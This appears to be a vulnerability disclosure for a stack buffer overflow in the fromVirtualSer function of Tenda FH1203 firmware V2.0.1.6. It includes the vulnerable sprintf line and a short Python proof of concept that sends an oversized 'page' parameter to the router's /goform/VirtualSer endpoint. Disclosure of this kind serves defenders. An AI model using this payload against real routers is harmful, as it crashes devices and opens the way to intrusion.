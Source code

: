 # fromVirtualSer

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details


There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **fromVirtualSer** function. The function receives the `page` parameter from a POST request. `   sprintf(v5, "nat_virtualser.asp?page=%s", v3);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v5` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/2d880d75-b31c-44ef-afdd-3d0e9dcf2330)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/d9112a13-ae11-4ee5-9d4e-3c505053cf0a)
